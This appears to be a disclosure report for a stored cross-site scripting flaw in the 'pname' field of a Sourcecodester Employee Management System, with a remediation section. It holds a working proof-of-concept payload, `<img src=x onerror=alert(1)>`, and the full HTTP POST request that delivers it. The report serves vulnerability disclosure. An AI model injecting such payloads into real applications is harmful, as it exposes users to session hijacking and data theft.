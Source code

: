 # SOURCECODESTER EMPLOYEE MANAGEMENT SYSTEM - XSS Vulnerability in Project Assignment Report

### Title: XSS Vulnerability in Project Assignment
### Affected Component: /process/assignp.php
### CWE: TBD (Cross-Site Scripting)
### CVSS Base Score: TBD

### Summary:
The web application is vulnerable to cross-site scripting (XSS) attacks within the project assignment functionality. Attackers can exploit this vulnerability by injecting malicious JavaScript code into the "pname" parameter, which is used to assign project names. When unsuspecting users view the assigned project names, the injected script executes within their browsers, potentially leading to various malicious activities such as session hijacking or data theft.

### Proof of Concept (POC):
To exploit the XSS vulnerability, attackers craft a payload containing malicious JavaScript code and inject it into the "pname" parameter while assigning a project. For example, submitting the payload `<img src=x onerror=alert(1)>` as the project name triggers an alert box when viewed by other users. This demonstrates the successful execution of arbitrary scripts within the application.

#### HTTP Request:
```http
POST /process/assignp.php HTTP/1.1
Host: localhost:8080
Content-Length: 366
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: http://localhost:8080
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: http://localhost:8080///assign.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="eid"

648309
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="pname"

<img src=x onerror=alert(1)>
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB
Content-Disposition: form-data; name="duedate"

2024-02-09
------WebKitFormBoundaryGBjZDfsq5Q6tNSaB--
```

### Proof with Screenshot:
![XSS Vulnerability Proof](https://github.com/skid-nochizplz/skid-nochizplz/blob/main/TrashBin/CVE/SOURCECODESTER%20EMPLOYEE%20MANAGEMENT%20SYSTEM/XSS%20Vulnerability%20in%20Project%20Assignment%20Report.png?raw=true)

### Remediation:
To mitigate the XSS vulnerability, the application should implement proper input validation and output encoding techniques to sanitize user-supplied data before rendering it in the application's responses. Specifically, the "pname" parameter should be sanitized to ensure that it does not contain any executable code. Additionally, implementing content security policies (CSP) and regularly auditing the application's codebase for security vulnerabilities can further enhance its resilience against XSS attacks.

